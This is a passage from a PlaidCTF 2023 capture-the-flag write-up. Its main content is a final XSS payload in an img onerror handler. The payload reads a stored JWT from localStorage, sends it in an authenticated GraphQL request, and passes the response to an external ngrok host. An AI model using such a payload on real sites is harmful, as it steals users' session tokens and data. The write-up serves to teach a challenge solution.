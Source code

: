 **Sample of after logged in:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230415230049.png)

With that said, we have to include the `Authorization` header with the JWT value in the request!

**Final XSS Payload:**
```html
<img src=x onerror="async function postData() {
const data = { 'query': 'mutation { flag }' };
const response = await fetch('https://987a-123-203-183-20.ngrok-free.app/graphql', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': localStorage.token
    },
    body: JSON.stringify(data)
});
const text = await response.text();
fetch('https://987a-123-203-183-20.ngrok-free.app/?d=' + text);
}; postData();">
```
